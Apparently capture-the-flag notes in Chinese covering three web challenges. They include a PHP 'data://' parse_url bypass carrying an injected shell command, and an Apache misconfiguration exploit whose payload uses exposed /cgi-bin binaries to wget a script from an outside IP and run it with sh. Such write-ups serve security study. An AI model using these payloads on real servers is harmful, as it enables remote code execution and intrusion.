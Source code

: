 # GREETINGS
	- SSTIMap抬手秒了
- # SAFE_CONTENT
  id:: 66adf65b-9144-44e3-b41e-37b0fd38d504
	- 用`data://`伪协议构造任意内容，用`data://localhost/plain,xxx`绕过`parse_url`限制
	- payload这么构造
		- ```php
		  $f = "data://localhost/plain," . base64_encode("123; sleep 5;echo 1");
		  $s = parse_url($f);
		  var_dump($s);
		  var_dump($f);
		  var_dump(file_get_contents($f));
		  ```
	- 把payload打上去就好了
- # FUNNY
	- > 为啥这题只有几个解。。。
	- Apache配置里有这么几行
		- ```apache
		  ScriptAlias /cgi-bin /usr/bin
		  Action php-script /cgi-bin/php-cgi
		  AddHandler php-script .php
		  ```
	- 因为`/usr/bin`以`/cgi-bin`目录的形式暴露在外，所以直接访问对应目录即可启动对应程序。。。
	- payload
		- `/cgi-bin/nohup?wget+http://42.194.176.181:4052/a.txt+-O+/tmp/b.sh`
		- `/cgi-bin/nohup?sh+/tmp/b.sh`
	-